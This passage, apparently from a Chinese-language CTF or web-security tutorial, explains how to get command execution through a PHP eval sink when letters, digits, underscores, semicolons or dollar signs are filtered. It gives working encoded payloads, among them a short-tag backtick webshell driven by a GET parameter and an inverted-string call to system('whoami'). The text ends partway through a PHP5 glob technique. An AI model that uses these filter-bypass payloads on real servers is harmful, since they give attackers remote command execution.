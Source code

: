 成功执行命令并输出。

## 进阶

#### 过滤了_

在我们上面的例子中，_的主要用途就是在构造变量。但其实最简便的方法里面，我们可以完全不用_，这里给出一个例子。

	?><?=`{${~"%a0%b8%ba%ab"}[%a0]}`?>

分析下这个Payload，?>闭合了eval自带的<?标签。接下来使用了短标签。{}包含的PHP代码可以被执行，~"%a0%b8%ba%ab"为"_GET"，通过反引号进行shell命令执行。最后我们只要GET传参%a0即可执行命令。

![wiEfGn.png](https://s1.ax1x.com/2020/09/03/wiEfGn.png)

#### 过滤了;

分号我们只是用在结束PHP语句上，我们只要把所有的PHP语句改成短标签形式，就可以不使用;了。

#### 过滤了$

过滤了$的影响是我们彻底不能构造变量了。

**php7:**

在PHP7中，我们可以使用($a)()这种方法来执行命令，比如`('phpinfo')()`。(不使用assert()是因为php7他已经不是一个函数了。)。使用文章之前的脚本抛出可以取反得到`phpinfo`的字符串。

得到：

	(~%8f%97%8f%96%91%99%90)();

![wiZC60.png](https://s1.ax1x.com/2020/09/03/wiZC60.png)

这里也可以使用回调函数。call_user_func

* call_user_func — 把第一个参数作为回调函数调用

`shell=(~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c)(~%8c%86%8c%8b%9a%92,~%88%97%90%9e%92%96,'');`
其中~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c是"call_user_func"，~%8c%86%8c%8b%9a%92是"system"，~%88%97%90%9e%92%96是"whoami"。
成功执行命令

![wiZJtH.png](https://s1.ax1x.com/2020/09/03/wiZJtH.png)


**php5:**

PHP5中不再支持($a)()这种方法来调用函数。因此利用方法较为复杂.

继续参考[p神博客](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html),

“反引号”就是PHP中最简单的执行shell的方法。

因为反引号不属于“字母”、“数字”，所以我们可以执行系统命令，但问题来了：如何利用无字母、数字、$的系统命令来getshell？

两个有趣的Linux shell知识点：

* shell下可以利用 `.` 来执行任意脚本
* Linux文件名支持用 `glob` 通配符代替
